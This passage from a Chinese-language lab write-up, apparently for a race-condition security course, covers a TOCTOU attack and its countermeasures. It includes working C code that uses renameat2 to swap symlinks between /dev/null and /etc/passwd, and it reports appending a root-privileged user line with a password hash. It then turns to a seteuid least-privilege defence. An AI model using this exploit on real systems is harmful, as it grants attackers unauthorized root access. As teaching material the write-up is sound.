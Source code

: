 /tmp/XYZ每一百毫秒更改一次指向，在指向/dev/null和/etc/passwd之间左右横跳

![](/image/Snipaste_2022-11-02_16-30-22.png)

在一个shell中运行target_process.sh，另一个shell中运行attack，在几秒内即可攻击成功，发现/etc/passwd中追加了一行`test:U6aMy0wojraho:0:0:test:/root:/bin/bash `

## Task 2.C: An Improved Attack Method

上面的attack.c程序具有竞争条件漏洞，因为当access之后，open之前可能会unlink一下，然后open之后/tmp/xyz就会成为一个root所有的程序，此后攻击程序将无法再更改/tmp/xyz

> `/tmp` 文件夹有一个“粘性”位，此目录下的文件的所有者才能删除该文件

改良后的attack.c：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
int main()
{
    unsigned int flags = RENAME_EXCHANGE;
    unlink("/tmp/XYZ"); symlink("/dev/null", "/tmp/XYZ");
    unlink("/tmp/ABC"); symlink("/etc/passwd", "/tmp/ABC");
	while(1){
    	renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
	}
    return 0; 
}
```

新程序使用renameat2系统调用自动切换链接指向，这允许我们在不引入任何竞态条件的情况下更改/tmp/XYZ 指向的内容

重复task2B操作，攻击成功

# Task 3: Countermeasures

## Task 3.A: Applying the Principle of Least Privilege

最小特权原则：使用 seteuid 系统调用暂时禁用 root 权限，然后在必要时启用它

> 在执行易受攻击的函数之前，我们禁用特权; 在易受攻击的函数返回之后，我们重新启用该特权

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
	uid_t uid = getuid(); //真实用户id
	uid_t euid = geteuid();//有效用户id，如果是setuid程序那么会具有root权限 
	seteuid(uid); 
	
	/* 执行不需要root特权的操作 */
	
	seteuid(euid); 
   	return 0;
}
```
